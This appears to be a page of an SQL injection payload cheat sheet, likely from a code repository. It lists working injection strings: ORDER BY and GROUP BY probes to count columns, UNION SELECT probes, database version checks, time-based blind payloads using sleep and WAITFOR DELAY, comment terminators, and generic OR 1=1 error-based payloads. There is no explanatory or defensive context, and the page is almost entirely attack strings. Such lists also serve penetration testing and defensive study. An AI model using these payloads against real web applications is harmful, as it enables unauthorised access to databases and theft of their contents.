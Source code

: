 ```
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick
```

#### Generic Error Based Payloads

```
 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
```